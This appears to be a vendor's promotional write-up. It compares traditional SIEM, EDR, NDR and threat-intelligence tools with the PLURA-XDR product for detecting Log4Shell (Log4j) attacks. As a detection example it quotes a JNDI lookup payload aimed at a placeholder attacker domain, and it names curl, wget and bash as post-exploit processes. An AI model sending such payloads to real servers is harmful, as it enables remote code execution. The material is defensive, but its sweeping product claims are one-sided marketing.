

## `Case 1` Detecting Log4j (Log4Shell) Vulnerability Attacks

### **1️⃣ Why Traditional Threat Hunting (SIEM + EDR + NDR + TI) Fails to Detect It**
| **Comparison Items** | **Traditional Threat Hunting (SIEM + EDR + NDR + TI)** | **PLURA Web Request Body Analysis + EDR** |
|----------|-------------------------------|-------------------------------|
| **Detection Method** | IOC (Threat Intelligence)-based detection → Relies on known pattern matching, making it difficult to detect new attacks | Behavior-based detection → Analyzes web request body and execution behaviors in real-time to detect new attacks |
| **Web Application Attack Detection** | Can analyze web request headers and URLs but cannot analyze malicious patterns within request bodies | **Can analyze web request bodies in real-time to detect JNDI invocation patterns** |
| **Network Traffic Analysis** | NDR can analyze packets after SSL decryption but cannot analyze request bodies | **Can analyze request bodies to detect JNDI patterns** |
| **Endpoint Security** | EDR can detect executed processes but struggles to correlate them with web application attacks | **EDR can detect remote code execution (RCE) and malicious process execution (Fork, Execve) in real-time** |

### **2️⃣ Detailed Explanation of Why Traditional Threat Hunting Fails**
1. **Limitations of SIEM + TI (Threat Intelligence)**  
   - Traditional SIEM and TI rely on **static IOC (Indicator of Compromise)-based detection**.  
   - Since they **detect threats based on known malicious IPs, domains, and file hashes**, they struggle to detect **newly emerging vulnerabilities like Log4j**.  
   - **Attackers can evade IOC matching by using new JNDI payload variations**.  

2. **Limitations of NDR (Network Detection & Response)**  
   - NDR can **analyze network traffic by decrypting SSL but lacks the ability to analyze request bodies (payloads) in depth**.  
   - As a result, it **cannot detect malicious payloads like `jndi:ldap://malicious.com/exploit` embedded within web requests**.  
   - Although network-layer anomalies may be detected, **NDR struggles to analyze logs in context**.  

3. **Limitations of EDR (Endpoint Detection & Response)**  
   - EDR can detect malicious process executions (`curl`, `wget`, `bash`, etc.) occurring within web servers.  
   - However, **it cannot directly analyze the source of an attack within web applications, making it difficult to correlate web requests with executed processes**.  
   - Without **a complete attack flow analysis (Web Request → Malicious Code Execution), false positives may occur**.  

---

### **3️⃣ Detecting Attacks with PLURA Web Request Body Analysis + EDR**
✅ **1) Detecting Malicious Patterns via Web Request Body Analysis**  
   - PLURA **analyzes web request bodies in real-time** to detect patterns like `jndi:ldap://malicious.com/exploit`.  
   - It detects **abnormal LDAP and RMI invocations within search fields, user input values, HTTP headers, and API request bodies**.  
   - Unlike traditional WAFs, **it can analyze various JNDI payload variations to detect obfuscated attacks**.  

✅ **2) Execution Behavior-Based Detection and Blocking (EDR Integration)**  
   - If an attack succeeds and results in remote code execution (RCE),  
   - PLURA EDR **detects new process creation events (Fork, Execve) at the kernel level**.  
   - For example, if processes like `curl`, `wget`, or `bash` execute post-exploit, they can be detected and blocked instantly.  

✅ **3) Correlating Attack Flows to Block Further Attacks**  
   - Even if an attack bypasses IOC-based detection, **PLURA can detect patterns where LDAP/RMI requests lead to specific process executions and preemptively block additional attacks**.  
   - Attackers attempting to **evade signature-based detection with JNDI payload modifications** can still be detected through **behavior analysis**.  

---

### **4️⃣ Log4j (Log4Shell) Attack Flow**  

---

### **📌 Conclusion: Why PLURA Web Request Body Analysis + EDR Excels in Detecting Log4j Attacks**  
✅ **Traditional threat hunting (SIEM + EDR + NDR + TI) relies on IOC-based detection, making it difficult to detect new attack patterns like Log4j**.  
✅ **PLURA-XDR analyzes web request bodies and performs behavior-based detection, enabling real-time detection of Log4j attacks**.  
✅ **Capable of detecting attacks that bypass WAFs, credential stuffing, API abuse, and even ransomware attacks**.  
✅ **Through EDR integration, it detects and blocks additional attacker actions at the kernel level, such as malicious process execution, web shell installation, and file modifications (FIM)**.  

🔹 **PLURA-XDR is a next-generation security platform capable of detecting and blocking Zero-Day attacks that traditional security systems fail to catch.** 🚀

---
